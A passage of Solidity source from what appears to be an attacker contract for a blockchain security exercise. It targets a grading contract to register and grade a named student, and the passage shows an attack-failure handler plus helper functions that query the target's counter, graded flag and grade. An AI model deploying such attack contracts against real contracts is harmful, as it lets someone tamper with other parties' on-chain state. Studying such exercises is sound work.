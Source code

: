 ```solidity
        } else {
            string memory revertReason = "Unknown error";
            if (returnData.length > 0) {
                assembly {
                    revertReason := add(returnData, 0x04)
                }
            }
            emit AttackFailed(revertReason);
        }
    }

    /**
     * @notice Manual registration attempt (backup method)
     * @dev Can be called separately if combined attack fails
     */
    function registerStudent() external onlyController {
        _registerStudent();
    }

    /**
     * @notice Check current counter value for this contract
     * @return counter Current counter value from target contract
     */
    function checkCounter() external view returns (uint256 counter) {
        (bool success, bytes memory data) = TARGET.staticcall(
            abi.encodeWithSignature("counter(address)", address(this))
        );
        if (success && data.length >= 32) {
            counter = abi.decode(data, (uint256));
        }
    }

    /**
     * @notice Check if this contract address is already graded
     * @return graded Whether the contract is already graded
     */
    function isGraded() external view returns (bool graded) {
        (bool success, bytes memory data) = TARGET.staticcall(
            abi.encodeWithSignature("isGraded(address)", address(this))
        );
        if (success && data.length >= 32) {
            graded = abi.decode(data, (bool));
        }
    }

    /**
     * @notice Check the grade assigned to Eduardo J. Moreno
     * @return grade The grade value (0 if not registered)
     */
    function checkStudentGrade() external view returns (uint256 grade) {
        (bool success, bytes memory data) = TARGET.staticcall(
            abi.encodeWithSignature("students(string)", STUDENT_NAME)
        );
        if (success && data.length >= 32) {
            grade = abi.decode(data, (uint256));
        }
    }

    /**
     * @notice Get complete attack status information
     * @return _counter Current counter value
     * @return _graded Whether already graded
     * @return _studentGrade Current grade for Eduardo J. Moreno
```